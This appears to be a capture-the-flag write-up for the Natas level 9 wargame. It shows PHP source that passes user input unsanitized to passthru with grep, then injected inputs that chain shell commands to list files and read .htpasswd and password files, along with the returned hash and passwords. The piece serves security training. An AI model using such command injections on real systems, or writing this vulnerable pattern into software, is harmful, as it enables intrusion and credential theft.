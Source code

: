 custom view source:

Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>

testicle dictionary.txt && ls -la #

testicle
testicle's
testicles
total 476
drwxr-x---  2 natas9 natas9   4096 Jul 28 18:49 .
drwxr-xr-x 38 root   root     4096 Jul 28 18:49 ..
-rw-r-----  1 natas9 natas9    117 Jul 28 18:49 .htaccess
-rw-r-----  1 natas9 natas9     45 Jul 28 18:49 .htpasswd
-rw-r-----  1 natas9 natas9 460878 Jul 28 18:49 dictionary.txt
-rw-r--r--  1 root   root     2924 Jul 28 18:49 index-source.html
-rw-r-----  1 natas9 natas9   1185 Jul 28 18:49 index.php

testicle dictionary.txt && ls -la && whoami && cat .htpasswd#

natas9
natas9:$apr1$WX3yZo5L$HBHoV.NYkiaOW/cYskY9y1

testicle dictionary.txt && cat /etc/natas_webpass/natas9 #

ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t

testicle dictionary.txt && cat /etc/natas_webpass/natas10 #

t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
